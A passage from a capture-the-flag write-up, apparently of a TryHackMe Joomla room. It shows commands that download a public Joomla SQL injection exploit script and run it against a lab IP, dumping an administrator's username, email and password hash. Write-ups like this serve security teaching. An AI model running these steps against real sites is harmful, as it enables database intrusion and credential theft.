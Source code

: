 <div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/bugle/script.png" title="SQLi Script" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py">https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py</a>

<br />
Download the exploit to our local working folder.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/thm/bugle]
└─$ wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/refs/heads/master/joomblah.py
--2025-02-19 00:11:58--  https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/refs/heads/master/joomblah.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 2606:50c0:8001::154, 2606:50c0:8000::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6040 (5.9K) [text/plain]
Saving to: ‘joomblah.py’

joomblah.py                                                100%[========================================================================================================================================>]   5.90K  --.-KB/s    in 0.002s  

2025-02-19 00:11:59 (3.75 MB/s) - ‘joomblah.py’ saved [6040/6040]
```
{% endraw %}

<br />
Run the python script to dump the users table.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/thm/bugle]
└─$ python joomblah.py http://10.10.167.104
/home/kali/Documents/thm/bugle/joomblah.py:160: SyntaxWarning: invalid escape sequence '\ '
  logo = """
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```